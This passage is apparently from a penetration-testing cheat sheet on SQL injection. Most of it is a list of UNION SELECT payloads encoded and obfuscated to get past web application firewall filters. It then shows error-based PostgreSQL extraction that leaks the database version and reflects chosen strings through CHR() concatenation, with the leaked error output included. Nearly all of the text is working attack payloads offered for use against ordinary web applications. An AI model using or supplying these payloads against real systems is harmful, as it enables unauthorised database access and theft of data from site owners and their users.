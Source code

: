 ```
http://domain.com/index.php?id=1 %252f%252a*/UNION%252f%252a /SELECT%252f%252a*/ null,null,null,null  
http://domain.com/index.php?id=1 /*!union*//*--*//*!all*//*--*//*!select*/ null,null,null,null  
http://domain.com/index.php?id=1 union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1% 2C2%2C null,null,null,null
http://domain.com/index.php?id=1 /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ null,null,null,null  
http://domain.com/index.php?id=1 +UnIoN/*&a=*/SeLeCT/*&a=*/ null,null,null,null  
http://domain.com/index.php?id=1 union+sel%0bect null,null,null,null  
http://domain.com/index.php?id=1 +#1q%0Aunion all#qa%0A#%0Aselect null,null,null,null  
http://domain.com/index.php?id=1 %23xyz%0AUnIOn%23xyz%0ASeLecT+ null,null,null,null  
http://domain.com/index.php?id=1 %23xyz%0A%55nIOn%23xyz%0A%53eLecT+ null,null,null,null  
http://domain.com/index.php?id=1 union(select(null),null,null)
http://domain.com/index.php?id=1 uNioN (/*!/**/ SeleCT */ 11) null,null,null,null  
http://domain.com/index.php?id=1 /**//*U*//*n*//*I*//*o*//*N*//*S*//*e*//*L*//*e*//*c*//*T*/ null,null,null,null  
http://domain.com/index.php?id=1 %0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/ null,null,null,null  
http://domain.com/index.php?id=1 +union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1% 2C2%2C null,null,null,null  
http://domain.com/index.php?id=1 /*!f****U%0d%0aunion*/+/*!f****U%0d%0aSelEct*/ null,null,null,null  
http://domain.com/index.php?id=1 +UnIoN/*&a=*/SeLeCT/*&a=*/ null,null,null,null  
http://domain.com/index.php?id=1 +/*!UnIoN*/+/*!SeLeCt*/+ null,null,null,null  
http://domain.com/index.php?id=1 /*!u%6eion*/ /*!se%6cect*/ null,null,null,null  
http://domain.com/index.php?id=1 uni%20union%20/*!select*/%20 null,null,null,null  
http://domain.com/index.php?id=1 union%23aa%0Aselect null,null,null,null  
http://domain.com/index.php?id=1/**/union/*!50000select*/ null,null,null,null  
http://domain.com/index.php?id=1 /^****union.*$/ /^****select.*$/ null,null,null,null  
http://domain.com/index.php?id=1 /*union*/union/*select*/select+ null,null,null,null  
http://domain.com/index.php?id=1 /*!50000UnION*//*!50000SeLeCt*/ null,null,null,null  
http://domain.com/index.php?id=1 %252f%252a*/union%252f%252a /select%252f%252a*/ null,null,null,null  
http://domain.com/index.php?id=1 AnD null UNiON SeLeCt null,null,null,null;%00 
http://domain.com/index.php?id=1 AnD null UNiON SeLeCt null,null,null,null+--+-  
http://domain.com/index.php?id=1 And False Union Select null,null,null,null+--+-  
```

In this case the 2nd column was vulnerable, so let's retrieve information from this column.  
Both payloads below will print the version of Database.

`http://domain.com/index.php?id=1 union select null,cast(version() as int),null,null`  
`http://domain.com/index.php?id=1 union select null,cast(version() as numeric),null,null`

Look at the error message, we will retrieve the version of the database:

> Query failed: ERROR: The syntax you enter contains an invalid number: "PostgreSQL 9.2.2, compiled by Visaul C++ build 1600, 64bit", in D:\AppServer\[www](http://www/)...

Try forcing server to reflect your input:  
`http://domain.com/index.php?id=1 Union Select null,cast(CHR(107) || CHR(108) || CHR(101) || CHR(105) || CHR(116) || CHR(111) || CHR(110) || CHR(48) || CHR(120) || CHR(48) || CHR(48) as int),null,null`  
On the error message, you will see your input reflected (this case **kleiton0x00**)
